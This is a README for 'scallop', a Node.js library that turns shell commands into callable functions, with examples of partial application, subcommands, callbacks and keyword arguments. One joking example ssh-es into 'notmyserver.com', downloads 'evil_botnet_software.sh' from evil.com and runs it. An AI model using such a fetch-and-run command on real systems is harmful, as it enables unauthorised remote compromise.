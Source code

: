 Scallop
=======

![](https://raw.githubusercontent.com/bgw/scallop/master/logo.png)

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `scallop`!

```javascript
var sh = require("scallop"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
var myFolders = ["folderA", "folderB", "folderC"];
mkdir("-p", "-v", myFolders);
// which is the same as
mkdir.apply(null, ["-p", "-v"].concat(myFolders));
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
var git = sh("git").defineSubcommands("status", "add", "rm", "clone");
git.clone("https://github.com/bgw/scallop.git", "scallop");
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
var sudo = sh("sudo");
sudo.defineSubcommands({ls: null, git: ["status", "add", "rm"], echo: null});
sudo.git.add("important_file.txt");
```

#### ES6 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The next version of JS adds [object Proxies][]. These allow us to intercept
accesses to an underlying object. If you enable proxies by passing
`--harmony-proxies` or `--harmony` to `node`, then you can use some alternate
syntax. Eventually this proposed language feature should be enabled by default
in future versions of node.

  [object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
sh.ssh["bgw@benjam.info"].git.rm("important_file.txt");
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with CoffeeScript syntax.

```coffeescript
ls = sh "ls"
ls "-1", all: true, recursive: false, (err, res) ->
    console.log res
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
